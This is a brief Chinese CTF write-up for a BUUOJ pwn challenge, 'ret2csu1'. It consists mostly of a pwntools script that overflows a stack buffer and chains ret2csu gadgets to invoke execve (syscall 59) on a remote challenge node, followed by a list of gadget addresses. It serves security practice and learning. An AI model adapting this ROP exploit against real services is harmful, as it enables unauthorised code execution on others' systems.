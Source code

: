 
### 7    ret2csu1
考点：execve的另一种参数方式，ret2csu的使用。

![[Pasted image 20240918123249.png]]

![[Pasted image 20240918123312.png]]

![[Pasted image 20240918123523.png]]

![[Pasted image 20240918123408.png]]
![[Pasted image 20240918123429.png]]

![[Pasted image 20240918123453.png]]


wp 
```
#coding:utf-8

from pwn import *

context.arch='amd64'

p=remote('node5.buuoj.cn',25869)

# p=process("./pwn")

elf=ELF('./pwn')

# context.terminal = ['tmux']

# attach(p)

gad1_address = 0x40072A

gad2_address = 0x400710

syscall_59 =  0x601068

gift_1_bin_cat = 0x4007BB

gift_2 = 0x601050

  

payload = b"A"*(0x20 + 0x8) + p64(gad1_address) + p64(0) + p64(0) + p64(syscall_59) + p64(gift_1_bin_cat) + p64(gift_2) + p64(0) + p64(gad2_address)

p.send(payload)

# 0x000000000040072c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret

# 0x000000000040072e : pop r13 ; pop r14 ; pop r15 ; ret

# 0x0000000000400730 : pop r14 ; pop r15 ; ret

# 0x0000000000400732 : pop r15 ; ret

# 0x000000000040072b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret

# 0x000000000040072f : pop rbp ; pop r14 ; pop r15 ; ret

```